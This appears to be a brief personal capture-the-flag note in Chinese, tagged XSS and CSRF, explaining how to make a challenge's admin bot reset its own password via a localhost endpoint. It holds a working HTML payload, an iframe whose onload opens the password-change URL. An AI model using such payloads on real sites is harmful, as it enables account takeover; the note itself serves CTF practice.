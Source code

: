 tags:: [[CTF/XSS]], [[CTF/CSRF]]

- # 思路
- 让爬虫修改自己的密码为123123即可登陆
- 爬虫没有外网连接，需要让其访问^^127.0.0.1^^
- # Payload
- ```html
  <iframe	onload="window.open('http://127.0.0.1/api/change.php?p=123123')"></iframe>
  ```